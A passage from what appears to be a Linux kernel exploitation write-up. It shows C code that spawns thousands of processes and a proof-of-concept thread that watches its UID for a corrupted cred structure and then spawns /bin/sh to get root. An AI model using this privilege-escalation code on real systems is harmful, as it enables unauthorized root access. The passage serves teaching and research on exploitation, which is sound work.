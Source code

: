 ```c
    if (pid == -1){
      perror("\n\nCLONE");
      return -1;
    }
    printf("[0] Process created: %d\r", x);
    }
```
**Note**: Maybe you can't spawn more than 4k processes. Check [_ulimits_](https://access.redhat.com/solutions/61334) if this is the case. 

## PoC
Finally, we can write our _PoC_.

It is sufficient to call `trigger_bug` with different address (searching the structure) meanwhile our spawned thread will check its _UID_, like this:
```c
struct shared_area{
  int one_win;
};
struct shared_area glob_var;

// Sprayed thread
int spray_thread(void *arg){
  int uid;
  int previous_one = syscall(__NR_getuid);
  // Loop over syscall getUID
  while(1){
    uid = syscall(__NR_getuid);
    //printf("UID: %d\n",uid);
    // If returned UID is different from the previous one, then we have hitted a struct cred area
    if (uid != previous_one){
      printf("WIN!! with %d", uid);
      // Kill other treads in order to stabilize the system
      glob_var.one_win = 1;
      // Simply spawn a shell
      system("/bin/sh");
    }
    if(glob_var.one_win == 1)
      return 1;
  }
  return 0;
}
```
There is a probability of 50% to hit the structure so after a few runs you can obtain _root_ privileage.

![Root](/assets/images/win.png)
